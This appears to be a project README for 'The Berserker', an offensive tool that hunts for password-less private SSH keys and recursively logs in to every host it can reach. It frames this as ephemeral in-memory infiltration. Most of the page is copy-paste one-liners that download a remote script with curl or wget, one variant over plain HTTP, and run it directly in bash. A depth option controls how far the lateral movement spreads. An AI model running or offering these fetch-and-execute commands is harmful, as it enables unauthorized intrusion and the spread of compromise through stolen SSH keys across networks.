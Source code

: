 ```yaml
---
layout: default
---
```

{:refdef: style="text-align: center;"}
## **A recursive, non-intrusive and ephemeral tool to find password-less private ssh-keys and build a hierarchical tree of reachable hosts**
{: refdef}

The Berserker looks for password-less ssh-keys (such as ```~/.ssh/id_rsa```) and then attempts to log in to as many hosts as possible. It repeats its action *recursively*. All this without writing or installing any data on any host. It's an *in-memory* infiltration only.

Use either one of these commands to start The Berserker:
```shell
export BS="$(curl -fsSL ssh-it.thc.org/bs)" && bash -c "$BS"
```
```shell
export BS="$(wget -O- ssh-it.thc.org/bs)" && bash -c "$BS"
```

{:refdef: style="text-align: center;"}
![Berserker-Example](berserker-example.png)
{: refdef}

Read [how it works](how-it-works/) and [design choices](how-it-works/) we made.

### Tips & Tricks

* Press ```CTRL-C``` to interrupt the Berserker at any time.
* No data is stored on the origin host or any target host.
* A typical run completes within a few seconds.

The default is to stop after a depth of 8. Changing this to ```BS_DEPTH=1``` will make The Berserker log into the next host but not any farther.
```shell
export BS="$(curl -fsSL ssh-it.thc.org/bs)" && bash -c "BS_DEPTH=1 $BS"
```

### When HTTPS is not available
```shell
# Without HTTPS 
export BS="$(wget -O- --no-hsts http://nossl.segfault.net/bs)" && \
bash -c "$BS"
```

### Alpha Testing
THIS IS ALPHA RELEASE. PLEASE TEST AND REPORT BACK ANY BUGS OR SUGGESTIONS.
Many Thanks to:
* #!adm for testing and comments

### Contact

Twitter: [https://twitter.com/hackerschoice](https://twitter.com/hackerschoice)  
Telegram: [https://t.me/thcorg](https://t.me/thcorg)  
Web: [https://www.thc.org](https://www.thc.org)  
Medium: [https://medium.com/@hackerschoice](https://medium.com/@hackerschoice)  
E-Mail: members@thc.org  


